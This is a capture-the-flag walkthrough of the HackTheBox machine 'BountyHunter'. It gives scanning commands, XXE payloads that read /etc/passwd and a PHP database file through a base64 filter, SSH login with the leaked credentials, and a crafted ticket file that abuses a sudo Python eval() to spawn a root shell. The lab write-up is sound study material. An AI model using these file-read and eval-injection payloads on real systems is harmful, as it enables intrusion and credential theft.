*2021-10-23*

*kimm3*

# Walkthrough: BountyHunter
Platform: HackTheBox

Difficulty: Easy

Uploaded after retirement:
## Setup


```
script history/enum1
export IP=10.10.11.100; ping $IP
```

(Responds to ICMP echo)
## Scans and enumeration
```
sudo nmap $IP -p- -Pn -v -A -oA scans/nmap-init
```








`ffuf -u http://$IP/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/fuff-indexdir.md`

Retrieves two interesting findings that we haven't seen:
- resources folder
- dp.php





That README.txt is full of hints. The test account is a possible attack vector.



'bountylog.js' contains a function to retrieve values from 'log_submit.php', base64 encode them and call another file 'tracker_diRbPr00f314.php'.



Looks like a template for the info. Let's try a submit in browser.



This is the end result of process described above. Looking at the post request in burp, the actual POST request is made to 'tracker_diRbPr00f314.php' with base64 encoded XML data.



db.php returns a blank page(allthough 200 OK).
### XXE
Checking for XXE vulnerability. Let's start with a simple ENTITY test.

Contents of plain text XML file:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE test [<!ENTITY text "myveryowntext">]>
		<bugreport>
		<title>hej</title>
		<cwe>hejhej</cwe>
		<cvss>&text;</cvss>
		<reward>1234</reward>
		</bugreport>
```

`base64 *xmlfile* > base-test.txt`

Clean up new lines and replace special chars with the URL-encoded ones. There's two types:
- + replaced with %2B
- = replaced with %3D
(I just used Atoms search and replace)



Double check in inspector that the resulting XML is correct.


Numbers in score replaced with "myveryowntext", it works.

### XXE LFI
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE test [<!ENTITY text SYSTEM "file:///etc/passwd">]>
		<bugreport>
		<title>hej</title>
		<cwe>hejhej</cwe>
		<cvss>&text;</cvss>
		<reward>1234</reward>
		</bugreport>
```



One interesting user, 'development', the other non-standard don't have a shell/can't log in.



Got inspiration with this example, let's try to get db.php with it. Tried the "normal" file parameter first, but didn't work.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
		<bugreport>
		<title>&ac;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```


## Foothold
Trying to ssh to target with 'development'(found in '/etc/passwd') and the password in 'db.php' works.




## Privilege Escalation




The script is not writable but we can run it as sudo. It does take user input, opens a file based on it, and it runs an eval() statement on a certain line in the file. So very much exploitable if we craft a correct ticket file.

Copied the script offline to play with it.



To pass the modulus statement, it  has to begin with 200.

Valid eval code that will spawn a shell: `eval("__import__('pty').spawn('/bin/bash')")`.

Simply played around with the statements from the scripts and got a code that spawned a shell.



Save to a file and did a test run. Contents:
```md
# Skytrain Inc
## Ticket to
__Ticket Code:__
**200+__import__('pty').spawn('/bin/bash')

```

And result:




SEND IT



`nc -w 10.10.11.100 4444 < ticket.md`



## Post

